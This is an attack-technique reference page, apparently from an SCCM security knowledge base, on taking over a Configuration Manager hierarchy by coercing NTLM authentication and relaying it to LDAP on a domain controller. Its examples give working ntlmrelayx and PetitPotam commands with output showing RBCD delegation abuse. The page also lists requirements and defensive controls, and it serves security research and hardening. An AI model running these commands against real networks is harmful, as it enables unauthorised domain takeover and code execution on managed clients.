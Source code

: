 ```yaml
---
title: 'TAKEOVER-8'
description: 'Hierarchy takeover via NTLM coercion and relay HTTP to LDAP on domain controller'
source: 'subat0mik/Misconfiguration-Manager'
---
```


## MITRE ATT&CK TTPs
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements

### Coercion
- Valid Active Directory domain credentials
- Connectivity to SMB (TCP/445) on a coercion target:
    - TAKEOVER-8.1: Coerce primary site server 
    - TAKEOVER-8.2: Coerce SMS Provider
    - TAKEOVER-8.3: Coerce passive site server
    - TAKEOVER-8.4: Coerce site database server
- Connectivity from the coercion target to any port on the relay server
- The relay server is in the intranet zone and has a valid NetBIOS name or FQDN (e.g., via ADIDNS poisoning if using a network implant)
- Coercion target settings:
    - The `WebClient` service is installed and started [INSTALLED BY DEFAULT ON WINDOWS WORKSTATIONS]
    - `BlockNTLM` = `0` or not present, or = `1` and `BlockNTLMServerExceptionList` contains attacker relay server [DEFAULT]
    - `RestrictSendingNTLMTraffic` = `0`, `1`, or not present, or = `2` and `ClientAllowedNTLMServers` contains attacker relay server [DEFAULT]
    - Domain computer account is not `is sensitive and cannot be delegated` [DEFAULT]
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains coercion target [DEFAULT]

### Relay
- Connectivity from the relay server to LDAP or LDAPS on the relay target, the domain controller
- Relay target settings:
    - Either LDAP signing or channel binding is not required on the domain controller [DEFAULT]
    - `RestrictReceivingNTLMTraffic` = `0` or not present [DEFAULT]
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains relay target [DEFAULT]
    - `LmCompatibilityLevel` < `5` or not present, or = `5` and LmCompatibilityLevel >= `3` on the coercion target [DEFAULT]

- For resource-based constrained delegation:
    - Control of an account's SPN

        OR

    - `MachineAccountQuota` > `0` and domain users permitted to add computer accounts [DEFAULT]

## Summary
An attacker who is able to successfully coerce NTLM authentication from the Active Directory domain computer account for a primary site server, system hosting the SMS Provider role, or passive site server via HTTP and relay it to LDAP on a domain controller can conduct resource-based constrained delegation (RBCD) or shadow credentials attacks to compromise the server, then connect to:
- MSSQL on the site database as the site server or SMS Provider (see [TAKEOVER-1](../TAKEOVER-1/takeover-1_description))
- SMB on the site database as the site server (see [TAKEOVER-2](../TAKEOVER-2/takeover-2_description))
- SMB on the SMS Provider as the site server (see [TAKEOVER-6](../TAKEOVER-6/takeover-6_description))
- SMB on the site database server or an SMS Provider as itself
- SMB on the primary site server as a passive site server, or vice versa (see [TAKEOVER-7](../TAKEOVER-7/takeover-7_description))

The attacker can use these permissions to grant an arbitrary domain account the SCCM "Full Administrator" role.

## Impact
The "Full Administrator" security role is granted all permissions in Configuration Manager for all scopes and all collections. An attacker with this privilege can execute arbitrary programs on any client device that is online as SYSTEM, the currently logged on user, or as a specific user when they next log on. They can also leverage tools such as CMPivot and Run Script to query or execute scripts on client devices in real-time using the AdminService or WMI on an SMS Provider.

## Defensive IDs
- [DETECT-1: Monitor site server domain computer accounts authenticating from another source](../../../defense-techniques/DETECT/DETECT-1/detect-1_description)
- [PREVENT-11: Disable and uninstall WebClient on site servers](../../../defense-techniques/PREVENT/PREVENT-11/prevent-11_description)
- [PREVENT-13: Require LDAP channel binding and signing](../../../defense-techniques/PREVENT/PREVENT-13/prevent-13_description)
- [PREVENT-16: Remove SeMachineAccountPrivilege and set MachineAccountQuota to 0 for non-admin accounts](../../../defense-techniques/PREVENT/PREVENT-16/prevent-16_description)
- [PREVENT-20: Block unnecessary connections to site systems](../../../defense-techniques/PREVENT/PREVENT-20/prevent-20_description)

## Subtechniques
- TAKEOVER-8.1: Coerce primary site server 
- TAKEOVER-8.2: Coerce SMS Provider
- TAKEOVER-8.3: Coerce passive site server
- TAKEOVER-8.4: Coerce site database server

## Examples
The steps to execute TAKEOVER-8.1 through TAKEOVER-8.4 are mostly the same except that a different system is targeted for coercion of NTLM authentication.

1. On the attacker relay server, start `ntlmrelayx`, targeting the IP address of the domain controller and the LDAPS service and specifying options to conduct a resource-based constrained delegation attack:
    ```
    # impacket-ntlmrelayx --no-smb-server --no-wcf-server --no-raw-server -ts -ip <NTLMRELAY_LISTENER_IP> -t ldaps://<DOMAIN_CONTROLLER_IP> --http-port 8080 --no-da --delegate-access
    Impacket v0.11.0 - Copyright 2023 Fortra

    [2024-02-28 20:31:35] [*] Protocol Client MSSQL loaded..
    [2024-02-28 20:31:36] [*] Protocol Client LDAPS loaded..
    [2024-02-28 20:31:36] [*] Protocol Client LDAP loaded..
    [2024-02-28 20:31:36] [*] Protocol Client RPC loaded..
    [2024-02-28 20:31:36] [*] Protocol Client HTTPS loaded..
    [2024-02-28 20:31:36] [*] Protocol Client HTTP loaded..
    [2024-02-28 20:31:36] [*] Protocol Client IMAP loaded..
    [2024-02-28 20:31:36] [*] Protocol Client IMAPS loaded..
    [2024-02-28 20:31:36] [*] Protocol Client SMTP loaded..
    [2024-02-28 20:31:36] [*] Protocol Client SMB loaded..
    [2024-02-28 20:31:36] [*] Protocol Client DCSYNC loaded..
    [2024-02-28 20:31:38] [*] Running in relay mode to single host
    [2024-02-28 20:31:38] [*] Setting up HTTP Server on port 8080

    [2024-02-28 20:31:38] [*] Servers started, waiting for connections
    ```

3. From the attacker host, coerce NTLM authentication from the coercion target via HTTP, targeting the relay server's IP address and the specified port:
    ```
    # python3 PetitPotam.py -d MAYYHEM.LOCAL -u lowpriv -p <PASSWORD> <NTLMRELAYX_NETBIOSNAME>@8080/a <COERCION_TARGET_IP>            

    Trying pipe lsarpc
    [-] Connecting to ncacn_np:192.168.57.50[\PIPE\lsarpc]
    [+] Connected!
    [+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
    [+] Successfully bound!
    [-] Sending EfsRpcOpenFileRaw!
    [-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
    [+] OK! Using unpatched function!
    [-] Sending EfsRpcEncryptFileSrv!
    [+] Got expected ERROR_BAD_NETPATH exception!!
    [+] Attack worked!
    ```

    After a few seconds, you should receive an HTTP connection on the relay server that is forwarded to the domain controller to execute the RBCD attack:
    ```
    [2024-02-28 21:01:54] [*] HTTPD(8080): Connection from 192.168.57.50 controlled, attacking target ldaps://192.168.57.100
    [2024-02-28 21:01:54] [*] HTTPD(8080): Authenticating against ldaps://192.168.57.100 as MAYYHEM/SITE-SERVER$ SUCCEED
    [2024-02-28 21:01:54] [*] Enumerating relayed user's privileges. This may take a while on large domains
    [2024-02-28 21:01:54] [*] HTTPD(8080): Connection from 192.168.57.50 controlled, but there are no more targets left!
    [2024-02-28 21:01:55] [*] Attempting to create computer in: CN=Computers,DC=MAYYHEM,DC=LOCAL
    [2024-02-28 21:01:55] [*] Adding new computer with username: FCDQZAOC$ and password: OHG^rQ.yl8KcFAC result: OK
    [2024-02-28 21:01:55] [*] Delegation rights modified succesfully!
    [2024-02-28 21:01:55] [*] FCDQZAOC$ can now impersonate users on SITE-SERVER$ via S4U2Proxy
    ```

4. Obtain a service ticket for the created or specified account with an SPN, impersonating the coercion target.

5. Pass the ticket, access the coercion target, escalate to `SYSTEM`, and connect to:
- MSSQL on the site database as a site server or SMS Provider ([TAKEOVER-1](../TAKEOVER-1/takeover-1_description))
- AdminService on an SMS Provider as a site server ([TAKEOVER-2](../TAKEOVER-2/takeover-2_description))
- SMB on the site database or an SMS Provider as a site server ([TAKEOVER-6](../TAKEOVER-6/takeover-6_description))
- SMB on the site database server or an SMS Provider as itself
- SMB on the site server as a passive site server, or vice versa ([TAKEOVER-7](../TAKEOVER-7/takeover-7_description))

## References
- Chris Thompson, [Coercing NTLM Authentication from SCCM Servers](https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a)
- Elad Shamir, [Wagging the Dog: Abusing Resource-based Constrained Delegation to Attack Active Directory](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
- Garrett Foster, [SCCM Hierarchy Takeover with High Availability](https://posts.specterops.io/sccm-hierarchy-takeover-with-high-availability-7dcbd3696b43)
